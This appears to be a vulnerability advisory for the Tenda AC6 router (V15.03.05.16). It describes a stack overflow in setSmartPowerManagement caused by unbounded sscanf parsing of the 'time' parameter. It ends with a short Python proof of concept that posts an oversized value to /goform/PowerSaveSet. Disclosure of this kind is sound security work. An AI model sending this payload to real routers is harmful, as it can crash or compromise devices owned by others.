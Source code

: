 Tenda AC6 V15.03.05.16 was discovered to contain a stack overflow via the time parameter in the setSmartPowerManagement function.
 
Vulnerability Description

Vendor: Tenda
Product: AC6
Version: V15.03.05.16
Type: Buffer Overflow
Firmware link: https://www.tenda.com.cn/material/show/102661
 
Vulnerability Details

The function "setSmartPowerManagement" retrieves the parameter "time" using "sub_2B7C4", the value of "time" is formatted using the sscanf function with the format "%[^:]:%[^-]-%[^:]:%s". 
This greedy matching mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the sizes of "v10", "v9", "v8", or "v7".
 ![image](https://github.com/user-attachments/assets/153bb4ab-4d72-4f3d-8366-cc270673bced)

Recurring vulnerabilities and POC

import requests
ip = '192.168.2.3'
url = f'http://{ip}/goform/PowerSaveSet'
payload = {
    "time": '1:00-1:'+'1'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
![image](https://github.com/user-attachments/assets/db2201bd-4946-4524-b951-1ce9cc19617c)
